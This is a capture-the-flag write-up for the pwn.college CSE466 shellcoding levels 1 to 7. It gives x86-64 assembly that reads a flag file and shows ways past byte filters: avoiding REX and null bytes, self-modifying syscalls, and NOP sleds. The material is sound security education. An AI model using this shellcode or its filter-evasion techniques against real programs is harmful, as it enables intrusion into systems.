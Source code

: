# pwn.college
## CSE466
### Shell
#### 1 - 2

We are asked to receive the flag in '/flag'. First, we write the assembly code corresponding to the shellcode that we want to generate:

```asm
.global _start


_start:
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```

Than, we need to compile it and dump its `.text` section with `objcopy`:

```
gcc -no-pie -nostdlib -o 1 1.s
objcopy -O binary --only-section=.text 1 1.raw
```

Now, all we need to do is provide this 1.raw as input to the binary and we get the flag!

#### 3
This challenge forbids us from using the H(0x48) byte in our shellcode. Unfortunately, this is the byte for the [REX](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix) prefix, which is necessary when you use 64 bit operands with operations that don't support it.


Thankfully, push and pop can do long-mode operations without using the REX prefix, so we can use them instead of mov. But this removes our ability to do rip relative addressing. Here is the code that should achieve that:

```
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337025
  popq %rdi
  pushq $0
  popq %rsi
  pushq $0
  popq %rdx
  syscall
  
  pushq %rax
  popq %rsi
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  pushq $0
  popq %rdx
  pushq $1000
  popq %r10
  syscall

flag: .asciz "/flag"
```

#### 4 
This time, we can't use the 0x00 byte in our shellcode. Thankfully, we don't have to. We can't use `xor` to zero registers and some other tricks. Here is the assembly solution for that:

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337026
  popq %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  syscall
  
  pushq %rax
  popq %rsi
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  xor %rdx, %rdx
  xor %r10, %r10
  movw $1000, %r10w
  syscall

flag: .ascii "/flag"
```

#### 5
Shit, now we can't even use syscalls, we need to dynamically override the shellcode. What we need to do is, we first need to allocate space in our code for the syscalls using two `ret`instructions. (each `ret` is 1 byte while each `syscall` is 2). Than, we can just overwrite the addresses relative to `%rip`.

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  movq $2, %rax
  leaq flag(%rip), %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret
  
  movq %rax, %rsi
  movq $40, %rax
  movq $1, %rdi

  xor %rdx, %rdx
  movq $1000, %r10

  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret

flag: .asciz "/flag"
```

#### 6
We still need to edit code on runtime, but this time, we don't have write access to the first 4096 of our shellcode. Cool, why don't we just place our main code further then?

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  leaq main(%rip), %rdx
  jmp *%rdx
  .skip 4096
main:
  movq $2, %rax
  leaq flag(%rip), %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret
  
  movq %rax, %rsi
  movq $40, %rax
  movq $1, %rdi

  xor %rdx, %rdx
  movq $1000, %r10

  movb $0x05, 8(%rip)
  movb $0x0f, (%rip)
  ret
  ret

flag: .asciz "/flag"
```

#### 7
This time, we need to consider that our shellcode might start from 0x800 bytes into the shellcode. All we need is a NOP sled:

```assembly
.global _start


_start:
  nop # 0x800 times
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```